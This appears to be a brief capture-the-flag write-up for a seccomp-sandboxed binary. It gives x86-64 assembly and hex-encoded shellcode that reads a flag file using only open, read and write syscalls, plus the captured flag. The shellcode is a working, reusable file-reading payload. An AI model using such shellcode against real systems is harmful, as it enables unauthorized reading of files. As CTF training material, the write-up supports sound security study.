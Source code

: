 ### ASM 

the binary has been sandboxed using seccomp , we have to get flag using only  open , read , write syscall

```
; open(rdi=*filename,rsi=0['r'])  rax=2

xor rax, rax
add al, 2
mov rdi,0x41414074
xor rsi, rsi 
syscall

; read(rdi=rax=fd,rsi= mapped area,rdx=count)  rax=0

mov rdi,rax
mov rsi,0x414143e8
xor rax,rax
mov rdx,0xf0
syscall

; write(rdi=1,rsi=buf,rdx=count) rax=1

xor rdi, rdi
add rdi,1
xor rax,rax
add rax,1
mov rsi,0x414143e8
mov rdx,0xf0
syscall

```

 python -c 'print "\x48\x31\xC0\x04\x02\x48\xC7\xC7\x74\x40\x41\x41\x48\x31\xF6\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xE8\x43\x41\x41\x48\x31\xC0\x48\xC7\xC2\xF0\x00\x00\x00\x0F\x05\x48\x31\xFF\x48\x83\xC7\x01\x48\x31\xC0\x48\x83\xC0\x01\x48\xC7\xC6\xE8\x43\x41\x41\x48\xC7\xC2\xF0\x00\x00\x00\x0F\x05"+"\n"+"flag[Truncated]\x00\x00"' 

##### flag :  Mak1ng_shelLcodE_i5_veRy_eaSy
